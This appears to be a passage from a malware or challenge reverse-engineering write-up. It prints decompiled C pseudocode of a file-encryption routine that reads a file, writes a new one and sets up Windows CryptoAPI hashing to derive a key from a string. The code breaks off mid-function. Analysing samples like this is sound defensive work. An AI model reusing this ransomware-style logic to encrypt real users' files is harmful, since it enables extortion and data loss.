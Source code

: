 It then calls a function for each file which takes the original file name, the new file name, and the string that we created in the main function of the original exe.

Opening the true encryption function I see:

```c
__int64 __fastcall sub_1800011C0(LPCWSTR lpFileName, LPCWSTR a2, char *Source)
{
  int v5; 
  HANDLE v6; 
  HANDLE v7; 
  DWORD v8; 
  BOOL v10;
  int v11; 
  DWORD i; 
  DWORD NumberOfBytesRead; 
  HCRYPTPROV phProv; 
  DWORD NumberOfBytesWritten;
  HCRYPTHASH phHash; 
  HCRYPTKEY phKey; 
  __int64 Buffer; 
  __int64 v19; 
  __int64 v20; 
  __int64 v21; 
  __int64 v22;
  __int64 v23; 
  wchar_t Dest[4]; 
  __int64 v25; 
  __int64 v26; 
  __int64 v27; 
  __int16 v28;
  WCHAR szProvider[8]; 
  __int128 v30; 
  __int128 v31; 
  __int128 v32; 
  __int128 v33; 
  __int128 v34; 
  __int64 v35; 
  int v36; 

  *(_QWORD *)Dest = 0i64;
  v25 = 0i64;
  v26 = 0i64;
  v27 = 0i64;
  v28 = 0;
  mbstowcs(Dest, Source, 0x10ui64);
  v5 = lstrlenW(Dest);
  v6 = CreateFileW(lpFileName, 0x80000000, 1u, 0i64, 3u, 0x8000000u, 0i64);
  if ( v6 == (HANDLE)-1i64 )
    return 0xFFFFFFFFi64;
  v7 = CreateFileW(a2, 0x40000000u, 0, 0i64, 2u, 0x80u, 0i64);
  if ( v7 == (HANDLE)-1i64 )
    return 0xFFFFFFFFi64;
  *(_OWORD *)szProvider = xmmword_180003290;
  v31 = xmmword_1800032B0;
  v30 = xmmword_1800032A0;
  v33 = xmmword_1800032D0;
  v32 = xmmword_1800032C0;
  v35 = 0x65006400690076i64;
  v34 = xmmword_1800032E0;
  v36 = 114;
  if ( !CryptAcquireContextW(&phProv, 0i64, szProvider, 0x18u, 0xF0000000)
    || !CryptCreateHash(phProv, 0x800Cu, 0i64, 0, &phHash) )
  {
    goto LABEL_4;
```